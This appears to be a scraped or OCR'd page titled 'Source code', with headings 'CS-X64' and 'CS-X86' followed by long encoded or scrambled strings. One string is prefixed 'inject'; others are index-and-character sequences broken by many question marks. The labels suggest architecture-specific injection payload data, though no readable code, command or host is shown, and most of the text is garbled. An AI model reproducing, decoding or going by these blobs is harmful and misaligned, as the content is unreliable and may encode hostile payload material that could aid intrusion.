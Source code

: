 # CS-X64

injectFaBD4+/2iYxyQO9cTKfxapknB5P31jHP+tXqq38hNc2rIDU7UwVcPocHehVXBF8E7llbLyh4tUKKBfD5PQPWxvBlp8w+xTuUGsBTuw==ebszg

# CS-X86

adminfwpum@%%wthugq#twf/HcqgrtDmxjy-lfp/esff/lcwu/hefp/nfu1#uhn?aqh=gdjejeson

admins3???4|2,?w;6,B?;10?,a;?14,.;?18,??5;2?2???,0;??2????6,b??;30??,0;???34????,3;3??8????,e;????42??,m;???46,i??;50,R??;???54?,R;??58,H;????62?,0;6?6,g;????70,??%;74??,V;78??,W;82??,V;86???,j;???90,??%;???94??,x?;98,??b?;???1???02?,b;1???0?6,c;1????1????0,g;??11??4,L;1??18??,b;??122,??t;?126,h??;????130,u?;134,???m;|hA??r??wC?0h????B6m?la9???YY.??xy???C5z???U2???0?0LA???bvh?I0??xDn???3CL????Me?V???nBmr????NLi????NBqRy???U2R?T9???lH1??0???50gD???vgD??Ze%Vn?DV5w0??W????wlvV??zUYj?09z%???n????x????0x3lj?bzL??NbV?m?AcvgH?ghz??mL?BVwb?PfB????t??9???IThxE????r??uCL3m?=qqregred

fesaw3????4|2,n?;6,?W????;10,W??;14??,d;1???8,5????;??2??2,?.;????26,h;??30,A????;34,????I??;38?,U????;?4??2,E;4????6,i???;50,?s;54????,5;58??,O;62?,T??;66???,????h;???70,???C???;74,??B;78??,??r?;82????,G??;86,????3?;90?,.;9??4?,o?;98?,9?;1???02,@;????106,???D;1?10,2???;1?14?,?t;???1????1????8????,L??;1??22,I??;1????26,B;??130,x???;13?4,E;|??h??Arn???C0?hW6m???lW9YY????d?xyC?5zU?2????.?0LAh????vhIA????xDn??ICLM??UVnB???E???rN?Li????N????BqsyU??25T9??lO10????5??Tg??DvhDZ?eCVnD????B5?w0rwl??v???Gz????U????Y3??09z.????nx0???o3l????j9zLN???@Vm?ADvg?H2hzm????t????BVwL??Pf????BI9I?TBx????ErxC?L????3E=???qewfxr

besax34|2,???l;6,??y??;1???0,??V;14?,r;?18,????R;2??2,d;??26,%;???3?0,U?;34,??R;3??8,H??;42??,T;?4?6,,;?50??,O????;54,%???;???58,,?;62,b????;6??6,O;??70??,D;74?,K;7???8,6??;?8?2,W?;??86,?1;9??0???,v;???94???,d;???98,w;?102,????a;1???06,J;?110,e????;114,????C;???118,e???;??122????,m????;???126??,??.;13?0????,1;????1????34,X;???|h?Arl???C0hy???6m???lV9YY?r??xyC???RzU2d??0LA%????vhI?Ux????Dn??RCLMH???VnBTr?NL????,N?BqOyU???2%T????9?l??,??105bg??DvO?DZe????DVnD?K5w0????6wlvW?zU??Y10??9zvnx????0d??3lj????wzLN???aV???m?AJvg?Heh??zmC????BVwe??Pf????Bm???9????IT??.x?Er1????CL3X????,tjasdt
